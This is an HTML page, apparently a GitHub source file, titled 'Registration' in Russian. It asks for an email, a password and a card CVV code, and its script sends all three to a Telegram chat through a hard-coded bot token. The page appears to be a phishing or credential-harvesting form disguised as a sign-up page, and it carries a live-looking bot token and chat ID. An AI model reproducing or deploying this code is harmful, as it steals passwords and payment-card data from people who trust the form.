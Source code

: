<html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form{
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1{
        margin-left: 100px;
      }
      button{
        margin-top: 10px;
        padding: 10px;
        background: green;
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="text">Email</label>
        <input type="text" id="email" name="username" required>
        <br>
        <p></p>
        <label for="text">Password</label>
        <input type="text" id="pass" name="email" required>
        <p></p>
        <label for="cvv">cvv код</label>
        <input type="text" id="cvv" name="cvv" required maxlength="3" oninput="this.value = this.value.replace(/[^0-9]/g, '')">>
        <br>
        <button type="submit">Зарегистрироваться</button>
        
    </form>

    <script>
        const form = document.getElementById('registrationForm')
        
        let submit = addEventListener('submit', e => {
          e.preventDefault() 
          
          const username = document.getElementById('pass').value;
          const email = document.getElementById('email').value;
          if (!email.includes('@')) {
                alert('Пожалуйста, введите корректный адрес электронной почты (должен содержать @).');
                return;
            }
          const cvv = document.getElementById('cvv').value;
            
          const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
          const chatId = -1002372284940 
          const message = `Новая регистрация:\n Почта:${email}\n Пароль:${username}\n cvv: ${cvv}`;
          const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
          
          
          fetch(url) 
          .then(response => {
            if (response) {
              
              alert('Данные успешно отправлены в Telegram!');
            } else {
              console.log('error');
            }
          })
          .catch(error => {
            console.error('Ошибка:', error);
            alert('Ошибка при отправке данных.');
          });
        });
    </script>
</body>
</html>
